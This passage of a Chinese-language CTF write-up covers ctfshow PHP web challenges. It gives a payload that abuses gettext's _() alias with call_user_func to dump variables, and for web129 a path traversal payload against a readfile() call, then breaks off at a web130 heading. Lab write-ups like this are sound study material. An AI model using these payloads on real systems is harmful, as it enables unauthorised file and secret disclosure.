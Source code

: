 这题我傻了。。，还是看大师傅的wp吧

考察点是gettext拓展使用

在开启该拓展后 _() 等效于 gettext()

```
<?php
echo gettext("phpinfo");
结果  phpinfo

echo _("phpinfo");
结果 phpinfo
```

所以 `call_user_func('_','phpinfo')` 返回的就是phpinfo

因为我们要得到的flag就在flag.php中，所以可以直接用get_defined_vars

```
get_defined_vars ( void ) : array
此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。
```

**payload**

```
?f1=_&f2=get_defined_vars
```



### web129

```
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

路径穿越很简单

`../`   回到上一级目录

`./`    表示当前目录

**payload**

```
?f=../../ctfshow../../../var/www/html/flag.php
```



### web130
